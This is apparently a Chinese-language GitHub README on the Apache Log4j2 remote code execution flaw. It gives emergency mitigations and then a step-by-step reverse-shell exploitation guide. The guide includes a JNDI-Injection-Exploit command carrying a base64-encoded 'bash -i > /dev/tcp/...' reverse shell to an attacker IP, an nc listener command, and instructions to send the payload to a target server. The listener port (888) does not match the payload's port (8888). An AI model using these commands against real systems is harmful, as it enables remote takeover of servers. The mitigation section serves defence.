


# Apache Log4j 2 

Apache log4j2 开源日志组件远程代码执行

> 攻击者通过构造恶意请求，触发服务器log4j 2 日志组件的远程代码执行漏洞。漏洞无需特殊配置，经验证，最新版的补丁可以防护此问题

[官方最新补丁： log4j-2.15.0-rc2](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)

## 紧急处置方案
1. 2.10 or 以上：添加环境变量  LOG4J_FORMAT_MSG_NO_LOOKUPS="true" 或 修改jvm参数 -Dlog4j2.formatMsgNoLookups=true
2. 2.7 or 以上：log4j config file 中用%m(nolookups) 代替 %m 
3. 2.0-beta9 or 以上: 删除jar 包中的org/apache/logging/log4j/core/lookup/JndiLookup.class
4. 通过防火墙自定义规则，限制`jndi` 、`ldap`、`rmi` 等恶意payload
5. 漏洞探测大多采用dnslog 等带外方式，可以禁掉服务器主动外联权限

## 漏洞复现
[详细复现步骤参考 fastjson-rce](https://github.com/dbgee/fastjson-rce)   ，与fastjson 的复现一致，只是使用的pom 文件不同而已

* 需要注意2.14.1 不能稳定复现，建议采用2.8.x 版本

## 环境下载
[log4j2_rce-0.0.1.jar](https://github.com/dbgee/log4j2_rce/releases/tag/0.0.1) 

## 反弹shell 指引
1. 下载命令执行工具，也可以编译Exploit.java 将计算器换成Linux反弹代码，这里为了方便直接使用 [JNDI-Injection-Exploit-1.0.jar](./shell/JNDI-Injection-Exploit-1.0.jar)
2. 开启利用工具 `java -jar JNDI-Injection-Exploit-1.0.jar -C "bash -c {echo,YmFzaCAtaSA+IC9kZXYvdGNwLzE5Mi4xNjguOTkuNDQvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A  "192.168.99.44"`
    1. 命令说明：-C  指定要执行的命令，-A 指定监听端口所在IP（一般为本机IP）
    2. base64 编码部分为Linux 反弹shell  `bash -i > /dev/tcp/192.168.99.44/8888 0>&1`
    3. 将利用工具生成的jndi links 放入postman payload 中
3. 本地开启nc 监听 `nc -Lvvp 888`
4. 发送payload 到目标服务器，反弹shell 成功
5. 利用过程截图: 、

